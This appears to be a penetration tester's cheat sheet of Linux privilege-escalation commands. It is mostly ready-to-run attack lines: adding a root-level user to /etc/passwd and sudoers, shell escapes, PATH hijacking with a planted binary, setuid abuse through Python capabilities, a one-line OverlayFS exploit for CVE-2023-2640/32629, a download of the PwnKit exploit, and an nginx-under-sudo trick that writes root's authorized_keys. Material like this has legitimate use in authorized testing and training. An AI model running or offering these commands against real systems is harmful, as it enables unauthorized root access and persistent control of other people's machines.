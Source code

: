 Add root2 to /etc/passwd:
```bash
echo "root2:$(openssl passwd toor):0:0:root:/root:/bin/bash" >> /etc/passwd
```

Add user to SUDOers group:

```shell
nano /etc/sudoers
```

```
root ALL=(ALL) ALL
$USER ALL=(ALL) ALL
```
---
Shell SUDO / escape:
---
---

[https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

---

Using python:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Using echo:

```shell
echo 'os.system('/bin/bash')'
```

Using sh:

```shell
/bin/sh -I
```

Using bash:

```shell
/bin/bash -I
```

```shell
/bin/bash -p
```

Using perl:

```shell
perl -e 'exec "/bin/sh";'
```

From within VI

```
:!bash
```

From within VIM

```
:export shell=/bin/bash
```

```
:shell
```

Shell escape sequences:

[https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/](https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/)

Abuse non-absolute path in scripts/bins run as root:

```bash
#create the script and rename to match the file you wish to impersonate
echo "#\!/bin/bash\nbash" > /dev/shm/malicious_bin
chmod +x /dev/shm/malicious_bin
#make sure it searches /dev/shm first for the file
export PATH=/dev/shm:$PATH
```

Proper path for GCC and other utilities:

```shell
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

Delete last line from a file in place:

```shell
sed -i '$d' <file>
```

```bash
echo "echo \"exploited:\\\$1\\\$somesalt\\\$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash\" >> /etc/passwd" >> VULN_SH
```

Python with getcap:

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Add superuser to /etc/passwd with username exploited and pass t00r

```code
exploited:$1$somesalt$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash
```

Escape sudo script directory:

```shell
sudo /usr/bin /path/with/rights/../../../home/USER/FILE
```

Escalate priv with getcap

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629):

```bash
#ubuntu overlayfs priv esc from reddit
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```

PwnKit (by the author of 'certipy'):
```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```
Abuse NGINX sudo for privesc:
----
create the following /tmp/pwn.conf on box:
```conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1337;
                root /;
                autoindex on;
                dav_methods PUT;
     }
}
```
```bash
sudo nginx -c /tmp/pwn.conf
ss -tunlp
#make sure port 1337 is opened
ssh-keygen
curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
```


